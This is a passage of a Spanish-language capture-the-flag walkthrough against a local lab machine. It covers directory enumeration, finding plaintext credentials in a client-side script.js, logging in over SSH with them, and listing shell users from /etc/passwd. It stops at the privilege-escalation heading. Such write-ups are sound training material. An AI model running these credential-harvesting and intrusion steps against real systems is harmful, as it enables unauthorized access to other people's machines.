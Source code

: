 - **Hallazgos**:
```bash
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 5100]
/dashboard.html       (Status: 200) [Size: 3499]
/archiv               (Status: 301) [Size: 309] [--> http://172.17.0.2/archiv/]
```

Al ingresar a esta ruta: **( /dashboard.html )** la pagia realiza al parecer una redireccion, Lo que aremos para validar esto es interceptar la peticion con burpsuite:
```bash
burpsuite &>/dev/null & disown
```
### Credenciales Encontradas
Despues de no encontrar nada con **burpsuite**, procedemos a revisar la siguiente ruta:
```bash
http://172.17.0.2/archiv/script.js
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos credenciales filtradas, las usarremos para ganar acceso por **ssh** ya que esta expuesto
```js
const usuariosPermitidos = {
    'admin': 'CyberSecure123',
    'cliente': 'Password123',
    'chloe' : 'chloe123'
};
```
### Intrusion
Ahora nos conectamos por **ssh** probando credenciales.
```bash
# Reverse shell o acceso inicial
ssh chloe@172.17.0.2 # ( chloe123 )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracion de usuarios
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
veronica:x:1001:1001:,,,:/home/veronica:/bin/bash
pablo:x:1002:1002:,,,:/home/pablo:/bin/bash
chloe:x:1003:1003:,,,:/home/chloe:/bin/bash
```
### Explotacion de Privilegios
